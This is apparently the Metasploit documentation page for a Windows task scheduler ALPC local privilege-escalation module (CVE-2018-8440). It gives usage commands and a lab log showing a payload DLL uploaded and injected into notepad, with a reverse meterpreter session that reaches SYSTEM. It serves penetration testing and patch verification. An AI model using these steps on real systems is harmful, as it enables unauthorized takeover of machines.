 ## Description

On vulnerable versions of Windows the alpc endpoint method SchRpcSetSecurity implemented by the task scheduler service can be used to write arbitrary DACLs to `.job` files located in `c:\windows\tasks` because the scheduler does not use impersonation when checking this location. Since users can create files in the `c:\windows\tasks` folder, a hardlink can be created to a file the user has read access to. After creating a hardlink, the vulnerability can be triggered to set the DACL on the linked file. This module has been tested against Windows 10 Pro x64.

## Vulnerable Application

Windows OSes without [KB4457142 patch](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440)

## Verification Steps

* Get a meterpreter session on Windows 10 x64
* `use exploit/windows/local/alpc_taskscheduler`
* `set session <session>`
* `set payload <payload>`
* `set lhost <lhost>`
* `run`
* Get a session as SYSTEM

## Scenarios

### Tested on Windows 10 Pro Version 1803 x64

```
msf5 exploit(windows/local/alpc_taskscheduler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x64/windows  DESKTOP-IPOGIJR\msfdev @ DESKTOP-IPOGIJR  172.22.222.243:4444 -> 172.22.222.200:50490 (172.22.222.200)

msf5 exploit(windows/local/alpc_taskscheduler) > run

[*] Started reverse TCP handler on 172.22.222.243:4444 
[*] Checking target...
[*] Attempting to PrivEsc on DESKTOP-IPOGIJR via session ID: 1
[*] Payload (5120 bytes) uploaded on DESKTOP-IPOGIJR to C:\Users\msfdev\AppData\Local\Temp\lbNjsaazXMT.dll
[*] Target Looks Good... trying to start notepad
[*] Launching notepad to host the exploit...
[+] Process 3768 launched.
[*] Attempting to change the payload path to C:\Users\msfdev\AppData\Local\Temp\lbNjsaazXMT.dll...
[*] Reflectively injecting the exploit DLL into 3768...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 172.22.222.200
[*] Meterpreter session 2 opened (172.22.222.243:4444 -> 172.22.222.200:50491) at 2018-09-17 17:37:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
